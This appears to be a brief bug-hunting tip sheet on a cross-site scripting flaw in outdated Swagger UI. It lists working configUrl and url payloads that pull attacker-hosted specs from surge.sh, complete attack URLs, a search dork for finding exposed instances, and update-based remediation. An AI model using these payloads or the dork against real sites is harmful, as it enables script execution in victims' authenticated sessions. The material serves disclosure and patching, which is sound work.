 
Swagger UI can be found at /classicapi/doc/

▪ Payloads:
• `?configUrl=data:text/html;base64,ewoidXJsIjoiaHR0cHM6Ly9leHViZXJhbnQtaWNlLnN1cmdlLnNoL3Rlc3QueWFtbCIKfQ==`

• `?configUrl=https://jumpy-floor.surge.sh/test.json`

• `?url=https://jumpy-floor.surge.sh/test.yaml`

• The payload might not work, so we move on to the next payload, and so on.

▪ Final payload examples:
- `https://example.com/classicapi/doc/?configUrl=data:text/html;base64,ewoidXJsIjoiaHR0cHM6Ly9leHViZXJhbnQtaWNlLnN1cmdlLnNoL3Rlc3QueWFtbCIKfQ==`

- `https://example.com/classicapi/doc/?configUrl=https://jumpy-floor.surge.sh/test.json`

- `https://example.com/classicapi/doc/?url=https://jumpy-floor.surge.sh/test.yaml`

▪ Find Swagger UI using dorks:
`intext:"Swagger UI" intitle:"Swagger UI" site:yourtarget.com`
(the dork yields some false positives, but it's good enough)

▪ Impact:
- an attacker can execute arbitrary js code in the context of <vulnerable_url>
- it means he can do whatever authenticated user at <vulnerable_url> could do

▪ Remediation:
- q: you have found a vulnerable swagger ui version in your organization, now what?
- a: it is simple, just update to the latest version. check out npm-update for more info

- q: what if you can't upgrade the whole swagger ui package?
- a: you can upgrade only the dompurify package that is used by swagger ui

